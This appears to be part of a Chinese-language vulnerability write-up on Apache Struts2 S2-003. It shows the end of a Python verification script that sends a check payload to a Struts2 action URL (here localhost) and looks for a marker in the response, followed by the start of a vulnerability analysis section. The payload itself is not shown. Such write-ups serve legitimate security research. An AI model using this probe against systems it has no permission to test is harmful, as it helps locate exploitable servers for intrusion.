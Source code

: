 ```python

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers)
            if self.capta in check_req.text.replace('\n', ''):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_003 = S2_003_BaseVerify('http://localhost:8080/s2_003_war_exploded/HelloWorld.action')
    print(S2_003.run())
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)
